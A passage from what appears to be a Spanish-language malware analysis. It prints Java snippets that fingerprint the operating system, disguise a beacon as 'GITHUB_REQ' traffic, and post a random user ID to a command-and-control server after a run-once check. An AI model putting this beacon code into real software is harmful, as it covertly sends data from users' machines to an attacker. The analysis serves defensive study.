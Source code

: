- Identifica - nuevamente en forma rudimentaria - sobre qué plataforma se está trabajando.

```java
private static String getOperatingSystem() {
  String os = System.getProperty("os.name");
  String result = null;

  if (os.contains("Windows"))
      result = "0";
  else if (os.contains("Linux"))
      result = "2";
  else if (os.contains("Mac OS X"))
      result = "1";
  return result;
}
```

- Crea - pero no envía aún - una solicitud POST hacia el sitio malicioso mencionado anteriormente, consignando un `uid` (User-ID) generado aleatoriamente y el sistema operativo detectado. Disfraza esta información con parámetros como `GITHUB_REQ` para que ante un eventual análisis del tráfico la solicitud aparente ser benigna.

```java
private static void sendPOST() throws IOException {
        String uid = randGen();
        StringBuilder data = new StringBuilder();
        String sec_path = "";
        data.append("GITHUB_REQ");
        data.append(uid);
        data.append("2000");
        data.append(getOperatingSystem());
```

- Revisa la existencia de un archivo "bandera" para saber si esta rutina ha sido ejecutada anteriormente. De no encontrar el archivo, lo crea para indicar haber llevado a cabo una ejecución. Posteriormente envía la solicitud maliciosa en formato JSON al servidor C2 con los datos mencionados en el punto anterior.

```java
try {
  if (sec_path.length() > 1) {
      File secFile = new File(sec_path);
      if (secFile.exists())
          System.exit(0);
  }

  HttpRequest request = HttpRequest.newBuilder()
      .header("Content-Type", "application/json; charset=utf-8")
      .version(HttpClient.Version.HTTP_1_1)
      .uri(URI.create(POST_URL))
      .POST(HttpRequest.BodyPublishers.ofString(data.toString()))
      .build();
  HttpClient client = HttpClient.newHttpClient();
  HttpResponse<String> response = client.send(request, HttpResponse.BodyHandlers.ofString());
```
